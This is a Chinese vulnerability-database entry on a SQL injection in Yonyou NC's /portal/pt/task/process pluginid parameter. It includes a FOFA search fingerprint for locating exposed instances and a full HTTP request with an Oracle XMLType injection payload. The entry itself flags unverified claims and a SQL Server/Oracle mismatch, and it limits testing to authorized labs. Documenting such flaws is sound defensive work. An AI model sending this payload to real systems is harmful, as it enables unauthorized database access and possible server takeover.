

# 用友NC task/process pluginid SQL 注入

## 条目说明

- 对象与具体问题：用友NC；task/process pluginid SQLi
- 版本、配置及部署条件：Oracle XMLType；版本未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文SQL Server xp_cmdshell与Oracle PoC数据库错配
- urlescape宏未交代工具，原始请求未围栏
- 版本与在野证据缺失，不能把一般访问控制建议称已修复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友NC /portal/pt/task/process 接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## 影响版本

用友NC

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：icon_hash="1085941792"

POC/EXP：

```http
POST /portal/pt/task/process?pageId=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

id=1&oracle=1&pluginid=1{{urlescape(' AND 7194=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(113)||CHR(98)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (7194=7194) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(120)||CHR(120)||CHR(113)||CHR(113)||CHR(62))) FROM DUAL)-- dJyN)}}
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
